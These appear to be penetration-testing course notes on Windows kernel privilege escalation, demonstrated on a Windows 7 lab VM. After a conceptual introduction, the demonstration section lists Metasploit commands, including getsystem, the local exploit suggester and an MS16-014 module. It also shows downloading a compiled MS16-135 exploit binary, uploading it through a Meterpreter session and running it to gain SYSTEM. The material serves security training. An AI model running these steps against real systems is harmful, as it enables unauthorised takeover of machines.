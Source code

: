 Privilege Escalation
- Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
- Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of a penetration test.
- After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
- The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out as a good penetration tester.

Windows Kernel
- A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
- Windows NT is the kernel that comes pre-packaged with all versions of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware.
	- User Mode: Programs and services running in user mode have limited access to system resources and functionality.
	- Kernel Mode: Kernel mode has unrestricted access to system resources and functionality with added functionality of managing devices and system memory.

Windows Kernel Exploitation
- Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- The process of exploitation will differ based on the version of Windows being targeted and the kernel exploit being used.
- Windows Kernel exploitation is not a recommended privilege escalation vector, since it can lead to system crashes or loss of data. It is not recommended to use Kernel exploits in an enterprise network.
- Privilege escalation on Windows systems will typically follow the following methodology:
	- Identifying kernel vulnerabilities.
	- Downloading, compiling and transferring kernel exploits onto the target system.

Tools & Environment
- Windows Exploit Suggester - This tool compares a target's patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.
	- GitHub: https://www.github.com/AonCyberLabs/Windows-Exploit-Suggester
- Windows-Kernel-Exploits - A collection of Windows Kernel exploits sorted by CVEs.
	- GitHub: https://www.github.com/SecWiki/windows-kernel-exploits/

Note: The techniques demonstrated in this video are performed on a Windows 7 SP1 VM.

Practical Demonstration
- Since the demonstration is for Privilege escalation, we are in an assumed breach scenario with non-elevated privileges, and have a PowerShell and a Meterpreter session, both with the user Accountant, who does not have elevated privileges.
- Automated privilege escalation using Metasploit Framework:
	- `sessions`
	- `sessions 3`
	- Meterpreter Session
		- `getuid`
		- `getprivs`
	- Automated Privilege Escalation on a Meterpreter session:
		- `getsystem`
	- Using the `local_exploit_suggester` post-exploit module to check against, collect and list local exploits:
		- `search suggester`
		- `use post/multi/recon/local_exploit_suggester`
		- `options`
		- `set SESSION 3`
		- `run`
	- Attempting privilege escalation with an exploit that the exploit suggester module verified the target system to be vulnerable to: 
		- `use exploit/windows/local/ms16_014_wmi_recv_notif`
		- `options`
		- `set SESSION 3`
		- `set LPORT 4422`
		- The LPORT value in this case should be a value not currently being used, so we cannot use the value that an ongoing shell session is currently working on.
		- `exploit`
		- Meterpreter session:
			- `getuid`
- Manual privilege escalation using Windows-Exploit-Suggester and publicly available PoC exploits:
	- `sessions`
	- `sessions 3`
	- Meterpreter session:
		- `getuid`
		- `getprivs`
		- `shell`
		- Windows Command Prompt:
			- `systeminfo`
			- The information we get from the execution of the `systeminfo` command should be copied into a file, in this case the file we created to save the information is named `win7-sysinfo.txt`, on our attack machine, since we need it later on to perform vulnerability scanning for kernel exploits using Windows-Exploit-Suggester.
	- `git clone https://www.github.com/AonCyberLabs/Windows-Exploit-Suggester`
	- `cd Windows-Exploit-Suggester`
	- `./windows-exploit-suggester.py --update`
	- `./windows-exploit-suggester.py --database 2024-10-31-mssb.xls --systeminfo ~/win7-sysinfo.txt`
		- The output of this tool has the results sorted in a descending order of exploit success rate, so the exploits at the top will be the most likely to work successfully.
		- \[E] represents the availability of a exploitdb PoC, \[M] represents the availability of a Metasploit module, and \[\*] represents a missing bulletin.
	- We can learn more about the exploits mentioned in the result, and how to use them, by researching online using the exploit's CVE code or Microsoft Security Bulletin code.
	- In this demonstration, we first consider a vulnerability with the Microsoft Security Bulletin code MS16-135, research about it online and find a PoC with its source code and a compiled binary `https://www.github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/`.
	- `wget https://www.github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.exe`
	- We downloaded the compiled binary locally to use the exploit code.
	- Now, we will use our non-privileged Meterpreter session on the target system to upload the exploit code binary, and execute it:
		- `cd C:\\`
		- `ls`
		- `cd Temp\\`
		- `ls`
		- `upload ~/41015.exe`
		- `shell`
		- Windows Command Prompt:
			- `dir`
			- `.\41015.exe`
			- `.\41015.exe 7`
			- `whoami`